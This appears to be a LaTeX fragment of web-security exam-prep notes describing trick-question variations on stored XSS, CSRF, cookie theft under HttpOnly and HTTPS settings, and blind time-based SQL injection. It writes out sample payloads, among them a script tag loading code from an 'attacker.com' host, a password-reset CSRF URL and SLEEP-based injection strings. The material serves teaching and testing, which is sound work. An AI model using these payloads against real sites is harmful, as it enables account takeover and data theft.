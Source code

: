 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{trapbox}
\begin{itemize}
    \item \textbf{Variation 1 (Attack-class identification with T/F origin statements):} Instead of constructing the attack, the exam shows a payload (e.g. \texttt{<script src="https://attacker.com/payload.js"></script>} in a stored post) and asks to judge statements: the script runs with the origin of the LOADING page (e.g. fakebook.com), not the origin hosting the file;
    SOP does not block fetching the file; cookie-stealing via a stored post is STORED XSS, not DOM-based. Trap: confusing the script's hosting origin with its execution origin, and mislabeling stored vs DOM-based.
    \item \textbf{Variation 2 (CSRF disguised as XSS):} A payload like \texttt{<script src="https://fakebook.com/resetPassword?password=42"></script>} uses a script tag but loads no real JS -- it only makes the victim's browser issue the authenticated GET with cookies attached.
    The correct classification is CSRF. The algorithm adapts by checking whether any attacker JavaScript actually executes in the victim origin. Trap: answering ``XSS'' because of the \texttt{<script>} tag.
    \item \textbf{Variation 3 (Cookie/transport flag flips):} The same session-token-theft goal is re-asked under different flags: HTTP + HttpOnly=true forces a pure network-sniffing answer (read the login response on the wire; JS cannot help); HTTPS + HttpOnly=false forces a reflected/stored XSS with \texttt{document.cookie} exfiltration;
    HTTPS + HttpOnly=true forces action-forging XSS instead of token theft. Traps: proposing \texttt{document.cookie} when HttpOnly=true, or proposing wire sniffing when traffic is HTTPS and the attacker is only a network attacker.
    \item \textbf{Variation 4 (Blind and time-based SQLi):} After the always-true condition (\texttt{' OR 1=1 -- }: \texttt{1=1} is a condition that is always true, so every row matches) and row-count boolean variants, the output is hidden (``Ticket count not available'') and a timing channel is required: \texttt{x' AND customerName='Bob' AND SLEEP(10)=1 -- }, inferring the boolean from response delay.

    The algorithm adapts by replacing output-observation with timing-observation, and requires explicitly stating the short-circuit assumption that SLEEP runs only when the preceding AND terms are true. Trap: forgetting the assumption or leaving the string literal unterminated.
\end{itemize}
\end{trapbox}
\end{document}
